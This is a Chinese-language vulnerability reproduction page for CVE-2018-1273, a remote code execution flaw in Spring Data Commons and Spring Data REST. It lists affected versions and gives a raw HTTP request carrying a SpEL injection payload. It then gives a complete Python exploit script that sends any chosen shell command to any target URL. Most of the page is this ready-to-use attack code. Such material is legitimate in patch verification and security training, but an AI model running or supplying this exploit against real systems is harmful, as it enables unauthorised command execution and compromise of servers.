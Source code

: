 （CVE-2018-1273）Spring Data Commons组件远程代码执行漏洞
========================================================

一、漏洞简介
------------

攻击者可以构造恶意的请求对Spring Data
REST发起攻击，包括使用基于HTTP资源的，或者其他请求基于Spring Data's
projection负载结合的，最终导致远程代码执行攻击。

二、漏洞影响
------------

Spring Data Commons 1.13 - 1.13.10(Ingalls SR10)

Spring Data REST 2.6 - 2.6.10 (Ingalls SR10)

Spring Data Commons 2.0 - 2.0.5 (Kay SR5)

Spring Data REST 3.0 - 3.0.5 (Kay SR5)

三、复现过程
------------

    POST /users?page=&size=5 HTTP/1.1
    Host: localhost:8080
    Connection: keep-alive
    Content-Length: 124
    Pragma: no-cache
    Cache-Control: no-cache
    Origin: http://localhost:8080
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://localhost:8080/users?page=0&size=5
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=

执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功：

![1.png](./.resource/(CVE-2018-1273)SpringDataCommons组件远程代码执行漏洞/media/rId24.png)

### poc

    cve-2018-1273_cmd.py
    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author:zhzyker
    # from:https://github.com/zhzyker/exphub
    # telegram:t.me/zhzyker

    import requests
    import sys

    if len(sys.argv)!=3:
        print('+----------------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                       +')
        print('+      Spring Data Commons Remote Code Execution (No display)                +')
        print('+----------------------------------------------------------------------------+')
        print('+ USE: python3 cve-2018-1273_cmd.py <url> "<cmd>"                            +')
        print('+ EXP: python3 cve-2018-1273_cmd.py http://1.1.1.1:8080 "touch /tmp/exphub"  +')
        print('+ VER: Spring Data Commons 1.13 to 1.13.10                                   +')
        print('+      Spring Data Commons 2.0 to 2.0.5                                      +')
        print('+----------------------------------------------------------------------------+')
        sys.exit()
        
    url = sys.argv[1]
    cmd = sys.argv[2]
    vuln = url + "/users"  

    headers = {
        'Host': "localhost:8080",
        'Connection': "keep-alive",
        'Content-Length': "120",
        'Pragma': "no-cache",
        'Cache-Control': "no-cache",
        'Origin': "http://localhost:8080",
        'Upgrade-Insecure-Requests': "1",
        'Content-Type': "application/x-www-form-urlencoded",
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36",
        'Accept': "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
        'Referer': "http://localhost:8080/users?page=0&size=5",
        'Accept-Encoding': "gzip, deflate, br",
        'Accept-Language': "zh-CN,zh;q=0.9,en;q=0.8"
        }
        
    payload = "username[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('%s')]=&password=&repeatedPassword=" % cmd

    try:
        r = requests.post(vuln, data=payload, headers=headers)
        if r.status_code == 500:
            print ("[+] Code executed successfully")
        else:
            print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")
    except:
        print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")
